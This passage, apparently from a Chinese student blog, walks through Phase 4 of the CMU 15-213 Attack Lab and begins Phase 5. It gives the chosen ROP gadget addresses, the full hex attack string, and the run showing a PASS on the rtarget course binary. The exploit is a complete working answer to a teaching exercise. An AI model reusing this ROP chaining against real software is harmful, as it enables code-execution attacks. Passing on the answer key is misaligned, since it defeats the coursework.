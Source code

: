 但是这两条指令我们无法在同一处找到，因此需要划分为 2 个`gadget`。且两条后面的都必须接数个`90`（`nop`）加上一个`c3`。

第一个的地址是`4019ab`或`4019cc`。第二个的地址是`4019a2`或者`4019c5`。

我们这里使用`4019ab`和`4019a2`两个`gadget`。第一个中存储`pop %rax`指令，第二个中存储`mov %rax, %rdi`指令。最后的栈空间如下：

![frame-last.png](frame-last.png)

由此，输入的攻击字符串的前 40 个字节随意，后面 32 个字节根据上述栈情况为（注意应该用小端法）

```
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

> 刚刚差点把 gadget1 和 2 的地址搞反了，导致跑出来 segmentation fault，还疑惑是怎么回事，后来一看发现不好，哈哈哈哈，做题的时候还是要认真仔细嗷！

输入`./hex2raw < phase4.txt | ./rtarget -q`（注意不要输入成`ctarget`啦！），运行结果如下：

```bash
gwen@gwen-virtual-machine:~/Documents/report/code/15213/lab/lab3-attack-lab$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Phase 5

phase 5 的任务是让`%rdi`指向`cookie`的字符串表示并调用`touch 3`，这个任务看起来有点类似我们在 Phase 3 中做的工作。

作者提示：

1. 可使用的`gadget`的范围是`start_farm`到`end_farm`
2. 利用 Appendix 中的表
3. 复习一下课本 P83 的`movl`的用法
4. 官方答案使用了 8 个 gadget
